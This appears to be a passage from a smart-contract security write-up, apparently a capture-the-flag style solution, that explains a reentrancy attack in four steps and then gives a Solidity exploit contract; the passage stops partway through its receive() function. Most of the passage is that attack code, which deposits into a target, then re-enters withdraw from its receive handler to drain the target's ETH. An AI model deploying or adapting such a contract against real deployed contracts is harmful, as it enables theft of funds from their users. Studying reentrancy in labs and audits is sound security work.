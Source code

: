 1. The victim contract sends ETH to the attacker contract before updating the attacker's balance
2. When the attacker contract receives ETH, its receive/fallback function is triggered
3. Inside this function, the attacker calls withdraw again before the first withdraw call has completed
4. This process repeats until all funds are drained from the victim contract

### Exploit Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ReentranceExploit {
    address public owner;
    address public targetContract;
    uint256 public initialDeposit;
    bool public attacking = false;

    constructor(address _targetContract) {
        owner = msg.sender;
        targetContract = _targetContract;
    }

    function attack() external payable {
        require(msg.sender == owner, "Only owner can call this function");
        require(msg.value > 0, "Need ETH to perform attack");
        initialDeposit = msg.value;

        // First, donate to ourselves to establish a balance
        (bool success, ) = targetContract.call{value: msg.value}(
            abi.encodeWithSignature("donate(address)", address(this))
        );
        require(success, "Donation failed");

        // Then, start the attack by withdrawing
        attacking = true;
        withdrawAll();
    }

    function withdrawAll() public {
        require(attacking || msg.sender == owner, "Not in attack mode");
        
        // Get our current balance in the target contract
        (bool success, bytes memory data) = targetContract.call(
            abi.encodeWithSignature("balanceOf(address)", address(this))
        );
        require(success, "Balance check failed");
        uint256 targetBalance = abi.decode(data, (uint256));
        
        // If there's a balance, withdraw it
        if (targetBalance > 0) {
            // Calculate amount to withdraw - either our balance or the contract's entire balance
            (success, data) = targetContract.call(
                abi.encodeWithSignature("withdraw(uint256)", targetBalance)
            );
            require(success, "Withdrawal failed");
        }
    }
    
    // This function is called when the target contract sends ETH back
    // If we're in attack mode, we recursively call withdraw again
    receive() external payable {
        if (attacking && address(targetContract).balance >= initialDeposit) {
            withdrawAll();
```